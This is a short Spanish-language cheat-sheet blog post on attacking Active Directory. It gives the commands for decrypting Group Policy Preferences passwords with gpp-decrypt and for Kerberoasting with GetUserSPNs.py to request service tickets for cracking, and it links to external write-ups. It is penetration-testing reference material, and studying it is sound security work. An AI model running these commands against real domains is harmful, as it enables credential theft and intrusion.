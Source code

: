```yaml
---
layout: post
title: Active Directory CheetSheat
subtitle: Active Direcroty CheetSheat
tags: [windows, AD]
description: Active Directory CheetSheat
---
```



## Preferencias de directivas de grupo

- Windows Server 2008

### Gpp-Descifrar
 
```
gpp-decrypt <hash>
```

Más información:  
[https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/](https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/)  
[https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)

-----

## kerberoasting attack

**Kerberoasting** es una técnica que permite a un atacante robar el `ticket KRB_TGS`, que está encriptado con RC4, para aplicar el hash de los servicios de aplicación de fuerza bruta para extraer su contraseña.

> Kerberos es para autenticación, no para autorización, esta laguna permite el kerberoasting

```
GetUserSPNs.py <dominio>/<user>:<password>
```

### Obtener el TGS

 ```
 GetUserSPNs.py <dominio>/<user>:<password -request
 ```
 
Más información:
[https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/](https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/)


